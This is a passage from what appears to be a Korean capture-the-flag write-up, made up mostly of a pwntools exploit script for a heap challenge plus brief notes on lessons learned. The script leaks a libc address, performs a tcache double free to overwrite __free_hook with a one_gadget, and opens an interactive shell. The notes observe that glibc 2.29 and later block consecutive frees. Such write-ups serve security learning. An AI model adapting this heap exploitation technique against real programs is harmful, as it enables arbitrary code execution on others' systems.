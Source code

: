 ```python

delete(0)
#pause()
delete(0)

update(0,p8(0x58))
#pause()

add(1,0x20,"A")
add(2,0x20,p16(0x421))
#gdb.attach(p,'code\nb *0xd03+$code\n')
#pause()
add(3,0x400,p64(0x21)*0x400)

#pause()
delete(0)
#pause()
check(0)
p.recvuntil("그대의 데이터는 :")
leak=u64(p.recv(6).ljust(8,'\x00'))
log.info("leak::"+hex(leak))
#pause()

libc_base=leak-0x3ebca0
freehook=libc_base+libc.symbols['__free_hook']
one_gadet=libc_base+0x4f322
#gdb.attach(p,'code\nb *0xc17+$code\n')

add(4,0x100,"A")
delete(4)
delete(4)

#pause()
#gdb.attach(p,'code\nb *0xAAA+$code\n')

update(4,p64(freehook))
pause()
#add(5,0x100,p8(0xe8))
add(5,0x100,"A")
pause()
add(6,0x100,p64(one_gadet))

delete(5)

p.interactive()
```
<br><br><br>

### 4. 몰랐던 개념

---

- tcache 소스코드 분석을 하고 문제를 푸느라 오래걸렸다. 하지만 tcache와 관련된 문제는 쉽게 풀수 있을 것같다.
- 현재 2.29 이후부터는 연속으로 free를 못하게 막아놨다. 추후에 glibc 2.29 버전과 관련된 문제를 s풀때 다시한번 추가된 코드를 정리해야겠다
